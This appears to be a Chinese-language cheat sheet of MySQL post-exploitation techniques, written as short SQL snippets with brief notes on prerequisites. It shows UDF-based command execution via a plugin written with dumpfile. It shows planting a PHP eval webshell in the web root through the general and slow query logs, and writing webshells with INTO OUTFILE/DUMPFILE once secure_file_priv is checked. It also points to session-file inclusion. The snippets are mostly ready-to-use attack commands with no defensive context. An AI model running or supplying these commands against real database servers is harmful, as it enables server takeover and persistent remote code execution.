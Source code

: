 ## UDF

```sql
show variables like '%plugin%';
# 默认为/usr/lib/mysql/plugin/
select unhex('payloads') into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
create function cyy_udf_eval returns string soname 'mysqludf.so';
select cyy_udf_eval('whoami');
```

## mysql日志

> 需要的前置条件：知道web服务器发布路径

```sql
set global general_log='on';
set global  general_log_file ="D:/phpStudy/PHPTutorial/WWW/log1n.php";
select "<?php eval($_POST['chi1ema'])?>";
set global general_log='off';
show global variables like "%genera%";
# 慢查询日志
set global slow_query_log=1;
set global slow_query_log_file='dir\filename';
select "<?php @eval($_POST['chi1ema'])?>" or sleep(11);
show global variables like '%long_query_time%';

```

## webshell写入

> 需要：web服务器发布路径，secure_file_priv不等于null（my.ini my.cnf）
>
> - 其中当参数 `secure_file_priv` 为空时，对导入导出无限制
> - 当值为一个指定的目录时，只能向指定的目录导入导出
> - 当值被设置为NULL时，禁止导入导出功能
---------
> outfile函数可以导出多行，而dumpfile只能导出一行数据
>
> outfile函数在将数据写到文件里时有特殊的格式转换，而dumpfile则保持原数据格式

```sql
SHOW VARIABLES LIKE "secure_file_priv";
select @@secure_file_priv;
select '一句话木马' into outfile "/www/asda";
select '一句话木马' into dumpfile "/www/asda";
```

## 包含SESSION文件

```
tmp/sess_Cookie里的sessionID
```

